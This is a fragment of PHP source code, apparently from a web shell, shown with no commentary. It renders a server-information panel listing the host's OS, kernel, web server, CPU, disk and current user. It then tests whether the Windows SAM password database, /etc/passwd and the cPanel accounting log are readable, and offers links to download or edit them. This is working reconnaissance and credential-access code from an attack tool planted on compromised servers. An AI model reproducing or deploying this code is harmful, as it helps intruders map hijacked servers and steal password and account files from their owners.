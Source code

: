 $os = php_unamE();
$osn=php_unamE('s');
if(!$windows){ 
$ker = php_unamE('r');
$o=($osn=="Linux")?"Linux+Kernel":$osn;
$os = str_replace($osn,"${mil}$o\"&gt;$osn&lt;/a&gt;",$os);
$os = str_replace($ker,"${mil}Linux+Kernel\"&gt;$ker&lt;/a&gt;",$os);
$inpa=':';
}else{
$sam = $sysroot."\\system32\\config\\SAM";
$inpa=';';
$os = str_replace($osn,"${mil}MS+Windows\"&gt;$osn&lt;/a&gt;",$os);
}
$software=str_replace("Apache","${mil}Apache\"&gt;Apache&lt;/a&gt;",$_SERVER['SERVER_SOFTWARE']);
echo "&lt;table border=0 cellpadding=0 cellspacing=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" bgcolor=\"#333333\" width=\"100%\"&gt;&lt;tr&gt;&lt;td&gt;Server information:&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#666666\"&gt;Server:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;".$_SERVER["HTTP_HOST"]; if (!empty($_SERVER["SERVER_ADDR"])){ echo "(". $_SERVER["SERVER_ADDR"] .")";}echo "&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#808080\"&gt;Operation system:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;$os$osver&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#666666\"&gt;Web server application:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;$software&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#808080\"&gt;CPU:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;$CPU&lt;/td&gt;&lt;/tr&gt;&lt;td width=\"25%\" bgcolor=\"#666666\"&gt;Disk status:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;$disksize&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#808080\"&gt;User domain:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;";if (!empty($_SERVER['USERDOMAIN'])) echo $_SERVER['USERDOMAIN'];else echo "Unknow"; echo "&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#666666\"&gt;User name:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;";$cuser=get_current_user();if (!empty($cuser)) echo get_current_user();else echo "Unknow"; echo "&lt;/td&gt;&lt;/tr&gt;";
if ($windows){
echo "&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#808080\"&gt;Windows directory:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;a href=\"".hlinK("seC=fm&workingdiR=$sysroot")."\"&gt;$sysroot&lt;/a&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#666666\"&gt;Sam file:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;";if (is_readable(($sam)))echo "&lt;a href=\"".hlinK("?workingdiR=$sysroot\\system32\\config&downloaD=sam")."\"&gt;Readable&lt;/a&gt;"; else echo "Not readable";echo "&lt;/td&gt;&lt;/tr&gt;";
}
else
{
echo "&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#808080\"&gt;Passwd file:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;";
if (is_readable('/etc/passwd')) echo "&lt;a href=\"".hlinK("seC=edit&filE=/etc/passwd&workingdiR=$cwd")."\"&gt;Readable&lt;/a&gt;"; else echo'Not readable';echo "&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#666666\"&gt;Cpanel log file:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;";
if (file_exists("/var/cpanel/accounting.log")){if (is_readable("/var/cpanel/accounting.log")) echo "&lt;a href=\"".hlinK("seC=edit&filE=/var/cpanel/accounting.log&workingdiR=$cwd")."\"&gt;Readable&lt;/a&gt;"; else echo "Not readable";}else echo "Not found";
echo "&lt;/td&gt;&lt;/tr&gt;";
}
$uip =(!empty($_SERVER['REMOTE_ADDR']))?$_SERVER['REMOTE_ADDR']:getenv('REMOTE_ADDR');